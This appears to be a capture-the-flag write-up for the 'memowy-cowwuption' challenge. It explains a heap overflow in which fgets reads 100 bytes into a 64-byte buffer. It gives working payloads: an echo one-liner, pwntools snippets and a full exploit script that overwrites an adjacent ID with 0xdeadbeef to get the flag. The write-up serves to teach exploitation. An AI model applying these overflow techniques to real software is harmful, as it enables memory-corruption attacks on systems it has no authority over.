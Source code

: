 # memowy-cowwuption

## Challenge

The challenge asks for our name, then compares our ID to the admin ID.

If our ID is equal to the admin ID, it prints the flag.

```
Hello, what is your name?
Green-Avocado
Sorry Green-Avocado, your ID (0) does not match the admin ID (deadbeef)
```

## Solution

Our ID will always be 0 in normal execution, as there is no code to set the ID.

There is a buffer overflow in `vuln`, as `name` is 64 bytes long, but `fgets` reads 0x64 (100) bytes.

```c
char* name = malloc(64);
int* id = malloc(sizeof(int));

puts("Hello, what is your name?");

fgets(name, 0x64, stdin);
```

Note that `name` is allocated before `id`.
This means that `name` will be at a higher address than `id`.
A buffer overflow in the `name` chunk will overwrite the `id` chunk.

Let's test this by sending 99 A's:

```
Hello, what is your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Sorry AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, your ID (41414141) does not match the admin ID (deadbeef)
```

Notice that our ID is no longer 0.
0x41 is the character code for 'A', which means we successfully overwrote the ID variable with "AAAA".

We can find the offset to the `id` variable on the heap by sending a string with a predictable pattern.
For example, a cyclic string using [pwntools](https://github.com/Gallopsled/pwntools):

```py
>>> from pwn import *
>>> cyclic(99)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaa'
```

Now let's send this to the challenge:

```
Hello, what is your name?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaa
Sorry aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaa, your ID (61616175) does not match the admin ID (deadbeef)
```

Remember the binary is little endian.
An integer of 0x61616175 is stored as:

```
id     : 0x75
id + 1 : 0x61
id + 2 : 0x61
id + 3 : 0x61
```

This corresponds to the string "uaaa".
We can use this to find the offset in pwntools:

```py
>>> from pwn import *
>>> cyclic_find("uaaa")
80
```

So the `id` variable is 80 characters offset from `name`.

To send 0xdeadbeef, we need to pack the integer as a byte string: `b'\xef\xbe\xad\xde'`.
We also need to prepend 80 characters before it.

This can be done using `echo` and piped into the challenge:

```sh
$ echo -n -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' | ./memowy-cowwuption
Hello, what is your name?
maple{ovewwwiting_stack_vawiabwes}
```

A better way to do this is using pwntools.
We can pack an 32-bit integer using `p32`:

```py
>>> from pwn import *
>>> p32(0xdeadbeef)
b'\xef\xbe\xad\xde'
```

We can create a payload with 0xdeadbeef at the correct offset using `flat`:

```py
>>> from pwn import *
>>> flat({ 80: p32(0xdeadbeef) })
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa\xef\xbe\xad\xde'
```

And we can send this to a process or socket started using `process` or `connect`, respectively.

```py
>>> from pwn import *
>>> payload = flat({ 80: p32(0xdeadbeef) })
>>> io = process("./memowy-cowwuption")
[x] Starting local process './memowy-cowwuption'
[+] Starting local process './memowy-cowwuption': pid 1921327
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process './memowy-cowwuption' stopped with exit code 0 (pid 1921327)
Hello, what is your name?
maple{ovewwwiting_stack_vawiabwes}

[*] Got EOF while reading in interactive
```

One last thing: it isn't strictly necessary to find the correct offset.
Since there isn't other important data on the heap, we are free to overwrite everything with 0xdeadbeef.
Thus we can just send `p32(0xdeadbeef) * 24` to achieve the overwrite and get the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1441 memowy-cowwuption
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('memowy-cowwuption')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1441)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendlineafter(b"Hello, what is your name?\n", p32(0xdeadbeef) * 24)

io.interactive()
```

## Flag

```
maple{ovewwwiting_stack_vawiabwes}
```
